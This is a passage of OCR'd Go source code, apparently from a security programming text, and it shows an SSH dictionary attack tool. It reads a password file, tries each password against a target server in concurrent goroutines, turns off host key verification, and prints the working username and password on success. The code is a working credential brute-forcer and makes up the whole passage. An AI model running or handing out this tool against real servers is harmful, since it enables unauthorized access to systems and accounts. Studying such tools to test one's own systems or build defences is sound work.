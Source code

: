 ```go
      }, 
      // Do not check server key 
      HostKeyCallback: ssh.InsecureIgnoreHostKey(), 

      // Or, set the expected ssh.PublicKey from remote host 
      //HostKeyCallback: ssh.FixedHostKey(pubkey), 
   } 

   _, err := ssh.Dial("tcp", url, sshConfig) 
   if err != nil { 
      // Print out the error so we can see if it is just a failed   
      // auth or if it is a connection/name resolution problem. 
      log.Println(err) 
   } else { // Success 
      log.Printf("Success!\nUser: %s\nPassword: %s\n", username,   
      password) 
      os.Exit(0) 
   } 

   doneChannel <- true // Signal another thread spot has opened up 
} 

func main() { 

   username, pwListFilename, url := checkArgs() 

   // Open password list file 
   passwordFile, err := os.Open(pwListFilename) 
   if err != nil { 
      log.Fatal("Error opening file. ", err) 
   } 
   defer passwordFile.Close() 

   // Default split method is on newline (bufio.ScanLines) 
   scanner := bufio.NewScanner(passwordFile) 

   doneChannel := make(chan bool) 
   numThreads := 0 
   maxThreads := 2 

   // Check each password against url 
   for scanner.Scan() { 
      numThreads += 1 

      password := scanner.Text() 
      go testSSHAuth(url, username, password, doneChannel) 

      // If max threads reached, wait for one to finish before continuing 
      if numThreads >= maxThreads { 
         <-doneChannel 
         numThreads -= 1 
      } 
   } 

   // Wait for all threads before repeating and fetching a new batch 
   for numThreads > 0 { 
      <-doneChannel 
      numThreads -= 1 
   } 
} 
```
